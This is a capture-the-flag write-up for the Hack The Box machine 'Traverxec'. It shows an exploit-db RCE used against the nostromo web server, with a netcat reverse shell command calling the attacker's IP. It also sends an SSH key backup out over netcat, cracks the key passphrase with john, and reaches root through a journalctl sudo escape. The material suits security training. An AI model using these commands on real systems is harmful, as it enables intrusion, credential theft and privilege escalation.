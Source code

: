 # Traverxec
An easy box, uses basic concepts to gain access and escalate privileges.

![Traverxec](../Images/htb_traverxec_1.png)

**Tools: nmap, ssh2john, john.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.165`

![Traverxec](../Images/htb_traverxec_2.png)

With port 80 open, we check the webpage and run a fuzzer, but there's nothing useful to be found.
With the nmap scan we got the webserver name and version, so we can go straight to [exploit-db](https://www.exploit-db.com/) and search for nostromo 1.9.6:

![Traverxec](../Images/htb_traverxec_3.png)

We can download this RCE exploit. I had to edit it and comment (#) the line with cve2019_16278.py to make it work - it is required to inform the target's IP, port and then the command to execute (in this case, a netcat reverse shell). First start a netcat listening session, then in another terminal window run the exploit:  
```
nc -vnlp 9001  
python 47837.py 10.10.10.165 80 "nc -e sh 10.10.14.245 9001"  
(use your tun0 IP for the nc reverse shell)
```

![Traverxec](../Images/htb_traverxec_4.png)

![Traverxec](../Images/htb_traverxec_5.png)

Now we can spawn a fully interactive shell using python:  
`python -c 'import pty; pty.spawn("/bin/sh")'`

Enumeration begins, then '/etc/passwd' shows us a user 'david' and at '/var' we can see a 'nostromo' directory. Inside it there's a directory 'conf', that has this 'nhttpd.conf' file.

![Traverxec](../Images/htb_traverxec_6.png)

Reading this file reveals, under the 'HOMEDIRS' section, that inside the user's home directory there might be a public_www folder.  
We don't have permission to access /home/david but we can open /home/david/public_www, then get inside the protected-file-area directory.

![Traverxec](../Images/htb_traverxec_7.png)

Inside this folder there's a backup-ssh-identity-files.tgz file that we can download, extract and analyse in our machine.  
From the remote shell send the file through netcat, then catch it in your machine (remember to use your tun0 IP):  
```
nc 10.10.14.245 9002 < backup-ssh-identity-files.tgz  
nc -vnlp 9002 > backup-ssh-identity-files.tgz  
```

![Traverxec](../Images/htb_traverxec_8.png)

![Traverxec](../Images/htb_traverxec_9.png)

![Traverxec](../Images/htb_traverxec_10.png)

With the id_rsa (private key) we can try connecting to the box using SSH, but we're still required to provide a password. We can use ssh2john and then john to get the password.  
```
/usr/share/john/ssh2john.py id_rsa > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![Traverxec](../Images/htb_traverxec_11.png)

We get the password 'hunter'. Now we use SSH and grab the user flag.

![Traverxec](../Images/htb_traverxec_12.png)

Inside david's home directory we can see the 'bin' folder, and inside it the script 'server-stats.sh'.
Reading the script reveals us that journalctl ("an utility for querying and displaying logs from journald, systemd’s logging service") runs with sudo permissions, showing us the last 5 lines of the nostromo service logs.

![Traverxec](../Images/htb_traverxec_13.png)

Looking for a privesc at [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), we have not only the technique, but also a quick explanation - journalctl invokes 'less', so we can use a command to spawn an interactive root shell from it:  
```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service  
!/bin/bash
```

![Traverxec](../Images/htb_traverxec_14.png)

And we have a root shell! Now just grab the root flag from /root.  

**That's it folks!**  
Thanks for reading and keep hacking!

